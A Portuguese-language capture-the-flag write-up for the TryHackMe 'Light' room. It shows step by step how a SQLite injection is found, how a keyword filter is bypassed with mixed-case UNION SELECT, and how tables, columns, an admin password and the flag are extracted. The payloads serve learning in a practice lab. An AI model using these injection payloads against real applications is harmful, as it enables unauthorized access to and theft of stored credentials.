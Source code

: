 # Room - Light - TryHackMe 

Level: Easy

![image](https://github.com/user-attachments/assets/f22b9991-a50b-4283-9875-63043ec6dc2f)


Ao conectar no servidor, somos recebidos com um campo para inserir um username. Usando o username que o desafio fornece no enunciado, o servidor nos retorna senha desse usuário.

![image](https://github.com/user-attachments/assets/e3b8289d-fc2e-4437-8fd7-90fbf1a81bd2)


A primeira ideia foi tentar conectar via SSH com essas credenciais, mas não foi possível.

![image](https://github.com/user-attachments/assets/227af177-d11b-4a4d-9c71-8390642ef480)

Como o enunciado sugere que é um sistema de banco de dados, a segunda aproximação envolveu verificar se o sistema é vulnerável a ataques de SQL Injection.

Utilizando alguns dos payloads encontrados no [repositório do payloadbox](https://github.com/payloadbox/sql-injection-payload-list), e baseado nas mensagens de erro, foi possível identificar que o engine usado no banco de dados era o SQLite

Testando o payload ' UNION SELECT 1+1' foi exibida uma mensagem indicando que existem filtros para algumas expressões e caracteres.

Felizmente as expressões do SQLite não são case-sensitive, então ao tentar alternar os caracteres entre maiúsculos e minúsculos, conseguimos bypassar o filtro e executar as operações normalmente.

`' UnIoN SeLeCt 1+1 '`

retornou o resultado: 2, indicando que o código estava sendo de fato executado pelo banco de dados.

![image](https://github.com/user-attachments/assets/67bc00e4-32bb-415c-8ba9-029551c7bca5)

A partir daí, o foco é em enumerar as informações das tabelas. Para isso, vamos prosseguir com o método de ataque utilizando as expressões UNION [Referência PortSwigger](https://portswigger.net/web-security/sql-injection/union-attacks)

Conforme a [documentação](https://www.sqlite.org/schematab.html) do SQLite, em todos os bancos de dados que utilizam essa engine, vai existir uma tabela que contém algumas 
informações sobre todas as outras tabelas.

CREATE TABLE sqlite_schema(
  type text,
  name text,
  tbl_name text,
  rootpage integer,
  sql text
);`

Podendo receber esses nomes alternativos: 
    sqlite_master
    sqlite_temp_schema
    sqlite_temp_master 


Seguindo nosso procedimento para conseguir as informações, podemos utilizar o payload
`' UNiON SeLect name FROM sqlite_master '`

![image](https://github.com/user-attachments/assets/9c8fe118-20d6-4ed5-8098-9e788bfa805e)

Descobrimos a tabela admintable

Agora podemos fazer o mesmo processo dentro dessa tabela.
Para descobrir o nome das colunas, podemos realizar a consulta à estrutura pragma_table, conforme exemplificado nesse [post do fórum do SQLite](https://sqlite.org/forum/info/9add3c3898aed7c4)

`' UnIoN SeLect name from pragma_table_info('admintable') '`
Primeira coluna: id

`' UnIoN SeLect name from pragma_table_info('admintable') where name != 'id`
Segunda coluna: password

`' UnIon SeLect name from pragma_table_info('admintable') where name != 'id' and name != 'password`
Terceira coluna: username

![image](https://github.com/user-attachments/assets/9fa1dbb6-63de-4cde-b674-569dbb22317e)

# Verificando os usernames
`' UnIon SeLect username from admintable ' `
*TryHackMeAdmin*

`' UnIoN SeLeCt password from admintable where username = 'TryHackMeAdmin`
*mamZtAuMlrsEy5bp6q17*

![image](https://github.com/user-attachments/assets/5a91292a-f4e1-4713-94af-d967347c56c2)

Vamos tentar realizar o acesso via SSH com essas credenciais, mas novamente, não foi possível.

![image](https://github.com/user-attachments/assets/285923c5-f07a-46aa-bc91-a6c8b9176c98)

Realizando uma nova consulta ao banco de usuários 
`' UnIon SeLect username from admintable where username != 'TryHackMeAdmin`

Olha ela aí!, encontramos o usuário *flag* agora vamos ver se a flag está na senha 
`' UnIoN SeLeCt password from admintable where username = 'flag`

![image](https://github.com/user-attachments/assets/cabcb408-fc4e-4a13-9cfa-4622a0c4a644)

E Foi!
Encontramos a flag
THM{SQLit3_InJ3cTion_is_SimplE_nO?}

